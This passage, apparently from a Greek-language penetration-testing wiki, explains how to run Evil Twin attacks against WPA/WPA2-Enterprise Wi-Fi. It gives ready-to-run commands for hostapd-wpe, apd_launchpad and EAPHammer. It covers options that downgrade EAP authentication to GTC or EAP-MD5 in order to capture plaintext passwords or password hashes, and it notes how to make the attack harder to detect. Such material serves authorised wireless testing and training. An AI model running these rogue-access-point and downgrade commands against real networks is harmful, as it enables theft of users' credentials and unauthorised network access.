 `hostapd-wpe` χρειάζεται ένα **αρχείο ρύθμισης** για να λειτουργήσει. Για να **αυτοματοποιήσετε** τη δημιουργία αυτών των ρυθμίσεων, μπορείτε να χρησιμοποιήσετε [https://github.com/WJDigby/apd\_launchpad](https://github.com/WJDigby/apd\_launchpad) (κατεβάστε το αρχείο python μέσα στο _/etc/hostapd-wpe/_).
```bash
./apd_launchpad.py -t victim -s PrivateSSID -i wlan0 -cn company.com
hostapd-wpe ./victim/victim.conf -s
```
Στο αρχείο ρυθμίσεων μπορείτε να επιλέξετε πολλά διαφορετικά πράγματα όπως ssid, κανάλι, αρχεία χρηστών, cret/key, παραμέτρους dh, έκδοση wpa και αυθεντικοποίηση...

[**Χρησιμοποιώντας το hostapd-wpe με EAP-TLS για να επιτρέψετε σε οποιοδήποτε πιστοποιητικό να συνδεθεί.**](evil-twin-eap-tls.md)

**Χρησιμοποιώντας το EAPHammer**
```bash
# Generate Certificates
./eaphammer --cert-wizard

# Launch Attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```
Κατά προεπιλογή, το EAPHammer προτείνει αυτές τις μεθόδους αυθεντικοποίησης (σημειώστε το GTC ως την πρώτη που θα προσπαθήσει να αποκτήσει κωδικούς πρόσβασης σε απλή μορφή και στη συνέχεια τη χρήση πιο ανθεκτικών μεθόδων αυθεντικοποίησης):
```
GTC,MSCHAPV2,TTLS-MSCHAPV2,TTLS,TTLS-CHAP,TTLS-PAP,TTLS-MSCHAP,MD5
```
Αυτή είναι η προεπιλεγμένη μεθοδολογία για να αποφευχθούν οι μεγάλες χρόνοι σύνδεσης. Ωστόσο, μπορείτε επίσης να καθορίσετε στους διακομιστές τις μεθόδους αυθεντικοποίησης από τις πιο αδύναμες στις πιο ισχυρές:
```
--negotiate weakest
```
Ή μπορείτε επίσης να χρησιμοποιήσετε:

* `--negotiate gtc-downgrade` για να χρησιμοποιήσετε μια πολύ αποδοτική υλοποίηση υποβάθμισης GTC (κωδικοί πρόσβασης σε απλό κείμενο)
* `--negotiate manual --phase-1-methods PEAP,TTLS --phase-2-methods MSCHAPV2,GTC,TTLS-PAP` για να καθορίσετε χειροκίνητα τις μεθόδους που προσφέρονται (η προσφορά των ίδιων μεθόδων αυθεντικοποίησης με την ίδια σειρά όπως η οργάνωση θα κάνει την επίθεση πολύ πιο δύσκολη να ανιχνευθεί).
* [Βρείτε περισσότερες πληροφορίες στη wiki](http://solstice.sh/wireless/eaphammer/2019/09/10/eap-downgrade-attacks/)

**Χρησιμοποιώντας το Airgeddon**

`Airgeddon` μπορεί να χρησιμοποιήσει προηγουμένως παραγόμενα πιστοποιητικά για να προσφέρει EAP αυθεντικοποίηση σε δίκτυα WPA/WPA2-Enterprise. Το ψεύτικο δίκτυο θα υποβαθμίσει το πρωτόκολλο σύνδεσης σε EAP-MD5 ώστε να μπορεί να **συλλάβει τον χρήστη και το MD5 του κωδικού πρόσβασης**. Αργότερα, ο επιτιθέμενος μπορεί να προσπαθήσει να σπάσει τον κωδικό πρόσβασης.\
`Airgeddon` σας προσφέρει τη δυνατότητα μιας **συνεχιζόμενης επίθεσης Evil Twin (θορυβώδης)** ή **μόνο να δημιουργήσει την επίθεση Evil μέχρι να συνδεθεί κάποιος (ομαλή).**

![](<../../.gitbook/assets/image (936).png>)
